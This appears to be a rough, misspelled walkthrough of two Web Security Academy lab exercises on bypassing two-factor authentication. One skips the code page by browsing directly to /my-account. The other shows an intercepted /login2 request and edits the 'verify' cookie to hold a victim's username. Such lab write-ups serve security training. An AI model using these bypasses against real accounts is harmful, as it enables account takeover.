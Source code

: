 ## Direct bypass
Fuck the 2FA, just try to access the next endpoint directly (you need to know the path of the next endpoint).


## Ex 1
 
 1. Loging Account use username and password 
 2. Please enter your 4-digit security code 
 
  3. Check The Email and use the code and loging
  4. check the url parameter
  
         https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/my-account
         /my-account is end-point
         
 5. loging Vicatm Account and send the 4 digit code 

 6. This is Url in Vicatam account
 
        https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/login2
        
 7. And add the end-point parameter
 
        /my-account
        https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/my-account
 
 ## Finally Hack The Vicatam Account
 
 ## EX 2 2FA broken logic
 1.loging Account and intercept the request
 
    GET /login2 HTTP/1.1
    Host: acca1fb51e222ae1c096b0ee00130073.web-security-academy.net
    Cookie: verify=Asif; session=BbzscnaCtyy4b69XW8P9Q0JRlqLq8iMU
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Linux"
    Referer: https://acca1fb51e222ae1c096b0ee00130073.web-security-academy.net/login
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Connection: close
    
 ## And Note Cookie: Verify username so change the username adn add the victom name 
 
 
 
